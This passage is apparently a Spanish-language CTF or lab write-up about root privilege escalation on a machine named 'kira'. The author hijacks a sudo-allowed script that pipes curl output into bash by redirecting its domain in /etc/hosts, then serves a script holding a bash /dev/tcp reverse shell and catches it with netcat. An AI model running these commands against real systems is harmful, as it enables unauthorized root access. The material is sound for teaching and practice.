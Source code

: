 Si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for bassam on kira:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bassam may run the following commands on kira:
    (root) NOPASSWD: /home/bassam/down.sh
```

Podemos ejecutar ese `.sh` como el usuario `root`...

Veremos como es por dentro ese `script.sh`...

```bash
curl "http://mywebsite.test/script.sh" |bash
```

Vemos que esta haciendo una llamada con `curl` a un sitio web que no existe resuelto por un dominio para ver el contenido de ese `script.sh` pero a la vez esta ejecutando con `bash` lo que haya en su interior, por lo que si cogemos ese dominio y lo resolvemos para que haga conexion en nuestra maquina con el `script` malicioso que pongamos lo ejecutara como `root`...

En nuestra maquina `host` crearemos el siguiente archivo...

```shell
nano script.sh

#Dentro del nano
#!/bin/bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

```shell
chmod +x script.sh
```

Abrimos un servidor de `python3` para que `curl` lo pueda coger...

```shell
python3 -m http.server 80
```

Y a la vez estaremos a la escucha...

```shell
nc -lvnp <PORT>
```

Si dentro de la maquina victima hacemos lo siguiente...

```shell
nano /etc/hosts

#Dentro del nano
<IP_ATACANTE>      mywebsite.test
```

Veremos que si podemos guardarlo para que cuando se ejecute el script se este ejecutando en nuestra `IP` de nuestro `hosts` donde tenemos ese `script.sh` malicioso con una `Reverse Shell`...
